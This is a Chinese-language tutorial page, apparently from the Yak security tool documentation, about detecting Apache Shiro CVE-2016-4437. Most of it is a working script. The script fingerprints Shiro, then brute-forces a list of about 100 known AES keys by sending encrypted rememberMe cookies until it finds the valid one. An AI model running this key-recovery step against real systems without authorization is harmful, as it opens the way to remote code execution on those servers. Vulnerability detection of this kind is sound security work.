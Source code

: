```yaml
---
sidebar_position: 4
---
```


# Shiro CVE-2016-4437（WIP）

阅读本文前，请先确保已经熟悉 [ThinkPHP-5.0.25-RCE](/products/article/best-practice/thinkphp-case) 中相关内容

本篇中将会涉及到 Shiro 这类比较复杂的漏洞检测，我们将完全通过 `Yak` 内部的模块完成该模块

:::caution Work In Progress

更详细的编码教程与解读我们将在后续补充

:::

## 原代码

```go
log.setLevel("info")
isHttps = cli.Bool("https")

// 构建 shiro 基础请求
baseFreq := fuzz.HTTPRequest(`GET / HTTP/1.1
Host: example.com
Connection: close

`)[0].FuzzHTTPHeader("Host", "cybertunnel.run:8080")

// 发送数据包，取一下指纹结果
result = baseFreq.FuzzCookie("rememberMe", "{{rs(10)}}").ExecFirst(
    httpool.https(isHttps), httpool.redirectTimes(4),
)[0]
die(result.Error)

url, reqRaw, rspRaw = result.Url, result.RequestRaw, result.ResponseRaw

// 检查指纹
headers, body := str.SplitHTTPHeadersAndBodyFromPacket(rspRaw)
if !str.MatchAnyOfSubString(headers, "rememberMe=deleteMe;") {
    die("no shiro detected")
}

log.info("shiro on %v detected", url)
log.info("start to check key")

// 指纹检测工程，接下来准备猜 key
keys = [
    "kPH+bIxk5D2deZiIxcaaaA==",
    "4AvVhmFLUs0KTA3Kprsdag==",
    "Z3VucwAAAAAAAAAAAAAAAA==",
    "fCq+/xW488hMTCD+cmJ3aQ==",
    "0AvVhmFLUs0KTA3Kprsdag==",
    "1AvVhdsgUs0FSA3SDFAdag==",
    "1QWLxg+NYmxraMoxAXu/Iw==",
    "25BsmdYwjnfcWmnhAciDDg==",
    "2AvVhdsgUs0FSA3SDFAdag==",
    "3AvVhmFLUs0KTA3Kprsdag==",
    "3JvYhmBLUs0ETA5Kprsdag==",
    "r0e3c16IdVkouZgk1TKVMg==",
    "5aaC5qKm5oqA5pyvAAAAAA==",
    "5AvVhmFLUs0KTA3Kprsdag==",
    "6AvVhmFLUs0KTA3Kprsdag==",
    "6NfXkC7YVCV5DASIrEm1Rg==",
    "6ZmI6I2j5Y+R5aSn5ZOlAA==",
    "cmVtZW1iZXJNZQAAAAAAAA==",
    "7AvVhmFLUs0KTA3Kprsdag==",
    "8AvVhmFLUs0KTA3Kprsdag==",
    "8BvVhmFLUs0KTA3Kprsdag==",
    "9AvVhmFLUs0KTA3Kprsdag==",
    "OUHYQzxQ/W9e/UjiAGu6rg==",
    "a3dvbmcAAAAAAAAAAAAAAA==",
    "aU1pcmFjbGVpTWlyYWNsZQ==",
    "bWljcm9zAAAAAAAAAAAAAA==",
    "bWluZS1hc3NldC1rZXk6QQ==",
    "bXRvbnMAAAAAAAAAAAAAAA==",
    "ZUdsaGJuSmxibVI2ZHc9PQ==",
    "wGiHplamyXlVB11UXWol8g==",
    "U3ByaW5nQmxhZGUAAAAAAA==",
    "MTIzNDU2Nzg5MGFiY2RlZg==",
    "L7RioUULEFhRyxM7a2R/Yg==",
    "a2VlcE9uR29pbmdBbmRGaQ==",
    "WcfHGU25gNnTxTlmJMeSpw==",
    "OY//C4rhfwNxCQAQCrQQ1Q==",
    "5J7bIJIV0LQSN3c9LPitBQ==",
    "f/SY5TIve5WWzT4aQlABJA==",
    "bya2HkYo57u6fWh5theAWw==",
    "WuB+y2gcHRnY2Lg9+Aqmqg==",
    "kPv59vyqzj00x11LXJZTjJ2UHW48jzHN",
    "3qDVdLawoIr1xFd6ietnwg==",
    "ZWvohmPdUsAWT3=KpPqda",
    "YI1+nBV//m7ELrIyDHm6DQ==",
    "6Zm+6I2j5Y+R5aS+5ZOlAA==",
    "2A2V+RFLUs+eTA3Kpr+dag==",
    "6ZmI6I2j3Y+R1aSn5BOlAA==",
    "SkZpbmFsQmxhZGUAAAAAAA==",
    "2cVtiE83c4lIrELJwKGJUw==",
    "fsHspZw/92PrS3XrPW+vxw==",
    "XTx6CKLo/SdSgub+OPHSrw==",
    "sHdIjUN6tzhl8xZMG3ULCQ==",
    "O4pdf+7e+mZe8NyxMTPJmQ==",
    "HWrBltGvEZc14h9VpMvZWw==",
    "rPNqM6uKFCyaL10AK51UkQ==",
    "Y1JxNSPXVwMkyvES/kJGeQ==",
    "lT2UvDUmQwewm6mMoiw4Ig==",
    "MPdCMZ9urzEA50JDlDYYDg==",
    "xVmmoltfpb8tTceuT5R7Bw==",
    "c+3hFGPjbgzGdrC+MHgoRQ==",
    "ClLk69oNcA3m+s0jIMIkpg==",
    "Bf7MfkNR0axGGptozrebag==",
    "1tC/xrDYs8ey+sa3emtiYw==",
    "ZmFsYWRvLnh5ei5zaGlybw==",
    "cGhyYWNrY3RmREUhfiMkZA==",
    "IduElDUpDDXE677ZkhhKnQ==",
    "yeAAo1E8BOeAYfBlm4NG9Q==",
    "cGljYXMAAAAAAAAAAAAAAA==",
    "2itfW92XazYRi5ltW0M2yA==",
    "XgGkgqGqYrix9lI6vxcrRw==",
    "ertVhmFLUs0KTA3Kprsdag==",
    "5AvVhmFLUS0ATA4Kprsdag==",
    "s0KTA3mFLUprK4AvVhsdag==",
    "hBlzKg78ajaZuTE0VLzDDg==",
    "9FvVhtFLUs0KnA3Kprsdyg==",
    "d2ViUmVtZW1iZXJNZUtleQ==",
    "yNeUgSzL/CfiWw1GALg6Ag==",
    "NGk/3cQ6F5/UNPRh8LpMIg==",
    "4BvVhmFLUs0KTA3Kprsdag==",
    "MzVeSkYyWTI2OFVLZjRzZg==",
    "CrownKey==a12d/dakdad",
    "empodDEyMwAAAAAAAAAAAA==",
    "A7UzJgh1+EWj5oBFi+mSgw==",
    "YTM0NZomIzI2OTsmIzM0NTueYQ==",
    "c2hpcm9fYmF0aXMzMgAAAA==",
    "i45FVt72K2kLgvFrJtoZRw==",
    "U3BAbW5nQmxhZGUAAAAAAA==",
    "ZnJlc2h6Y24xMjM0NTY3OA==",
    "Jt3C93kMR9D5e8QzwfsiMw==",
    "MTIzNDU2NzgxMjM0NTY3OA==",
    "vXP33AonIp9bFwGl7aT7rA==",
    "V2hhdCBUaGUgSGVsbAAAAA==",
    "Z3h6eWd4enklMjElMjElMjE=",
    "Q01TX0JGTFlLRVlfMjAxOQ==",
    "ZAvph3dsQs0FSL3SDFAdag==",
    "Is9zJ3pzNh2cgTHB4ua3+Q==",
    "NsZXjXVklWPZwOfkvk6kUA==",
    "GAevYnznvgNCURavBhCr1w==",
    "66v1O8keKNV3TTcGPK1wzg==",
    "SDKOLKn2J1j/2BHjeZwAoQ==",
]

data = codec.DecodeHex(`aced0005737200326f72672e6170616368652e736869726f2e7375626a6563742e53696d706c655072696e636970616c436f6c6c656374696f6ea87f5825c6a3084a0300014c000f7265616c6d5072696e636970616c7374000f4c6a6176612f7574696c2f4d61703b78707077010078`)[0]

cookies = make([]string)
for _, key = range keys {
    for _, rs = range [
        codec.AESCBCEncrypt,
        codec.AESGCMDecrypt,
    ] {
        keyBytes = codec.DecodeBase64(key)[0]
        res, err := rs(keyBytes, data, nil)
        if err != nil {
            println(err)
            continue
        }
        cookieRaw = append(keyBytes, res...)
        base64dK := codec.EncodeBase64(cookieRaw)
        cookies = append(cookies, base64dK)
    }
}

println("start go fuzz rememberMe")
r, err := baseFreq.FuzzCookie("rememberMe", cookies).Exec(httpool.https(isHttps), httpool.size(3))
die(err)

keyFoundResult = var
for result = range r {
    if result.Error != nil {
        continue
    }
    header, body = str.SplitHTTPHeadersAndBodyFromPacket(result.ResponseRaw)
    if str.MatchAllOfSubString(header, "rememberMe=deleteMe") {
        continue
    }
    keyFoundResult = result
    break
}

// keyFoundResult
println(string(keyFoundResult.RequestRaw))
```